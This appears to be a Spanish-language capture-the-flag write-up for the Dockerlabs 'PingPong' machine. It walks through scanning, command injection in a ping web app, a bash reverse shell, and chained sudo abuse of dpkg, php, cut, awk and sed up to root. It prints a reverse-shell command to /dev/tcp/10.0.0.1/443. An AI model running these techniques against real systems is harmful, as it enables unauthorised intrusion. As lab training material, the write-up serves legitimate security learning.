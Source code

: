# PingPong

Máquina vulnerable en modo **medium** de Dockerlabs.

---

## 🔎 Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

---

## 📡 Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **80** abierto (Apache)
- Puerto **443** abierto (Apache)
- Puerto **5000** abierto corriendo una aplicación en Python (Werkzeug).

![Scan1](https://i.imgur.com/racpOYG.png)

---

## 📂 Enumeración

Se hizo una revisión de los puertos **80** y **433** en el navegador pero los servidores no suministraron información relevante.

![Scan1](https://i.imgur.com/YS628ZP.png)

El siguiente paso fue buscar directorios y recursos ocultos con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado no arrojó muchos directorios, se inspeccionó el `machine.php` pero tampoco mostró nada relevante.

![Gobuster](https://i.imgur.com/JJOzxTm.png)
![Machine](https://i.imgur.com/yod5G0O.png)

Se pasó al puerto **5000** donde se hayó una aplicación para realizar pings a hosts pasados por medio de un input HTML, al parecer no sanitizado. Debido a esto se realizaron pruebas de **Command injection** para así conseguir obtener información de la máquina.

![Werkzeug1](https://i.imgur.com/37eesfV.png)
![Werkzeug1](https://i.imgur.com/MY85DKb.png)

---

## 💥 Explotación

Gracias a que los resultados fueron positivos, se implementó una reverse shell con bash para conectar a la terminal.

![Werkzeug1](https://i.imgur.com/s6zQY5h.png)  
![Werkzeug2](https://i.imgur.com/sW9IsW7.png)

---

## 🔝 Escalación de privilegios

Después de implementar la reverse shell se analizó el entorno para validar cómo conseguir la escalada de privilegios.

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/PPXa0is.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/dpkg` se puede ejecutar con el usuario `bobby`, lo que sugiere un movimiento lateral. En [GTFObins](https://gtfobins.github.io/gtfobins/dpkg/#sudo) podemos observar cómo ejecutar el dpkg.

Efectuamos ajustes en nuestro términal para evitar errores de list al ejecutar los comandos:

```
- script /dev/null -c bash
- stty raw -echo; fg
	reset xterm
- CTRL + z para pasarla background
- export TERM=xterm
- export SHELL=bash
- stty rows 47 colums 189
```

Al ejecutar los comandos para usar el dpkg:

```bash
sudo -u bobby /usr/bin/dpkg -l
```

![dpkg](https://i.imgur.com/YaJalta.png)
![dpkg](https://i.imgur.com/VKCKnWA.png)

Conseguido el usuario `bobby` Se repite el mismo proceso de comprobación de binarios y obtenemos lo siguiente para usuario `gladys`

![dpkg](https://i.imgur.com/3JNwdWo.png)

Se ejecuta el CMD en php para ejecutar otra reverse shell y conectarnos a `gladys`

`CMD='/bin/bash -c \ 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1\'`
`sudo -u gladys /usr/bin/php -r "system('$CMD');"`

Con esto pasamos al usuario `gladys` nuevamente se vuelve a repetir el proceso de comprobación, siempre utilizando searchbins o GTFObins en este caso el de [cut](https://gtfobins.github.io/gtfobins/cut/#sudo). Al revisar el directorio `/opt/` se encontró una flag que se utilizó para pasar al siguiente usuario `chocolatito`.

![dpkg](https://i.imgur.com/Iuf675b.png)

Obteniendo el usuario de `chocolatito` se vuelve a comprobar y se buscan nuevos binarios, en este caso es [awk](https://gtfobins.github.io/gtfobins/awk/#sudo). Que nos permite pasar al siguiente usuario que es `theboss`

![dpkg](https://i.imgur.com/ZeyEw1O.png)

Utilizando el método de comprobación como las veces anteriores, se descubre que este usuario en particular puede dar vía libre al root por medio de [sed](https://gtfobins.github.io/gtfobins/sed/#sudo).

![dpkg](https://i.imgur.com/ItDzxDz.png)

Y es con esto que después de realizar tantos movimientos laterales, se consigue escalar al root.
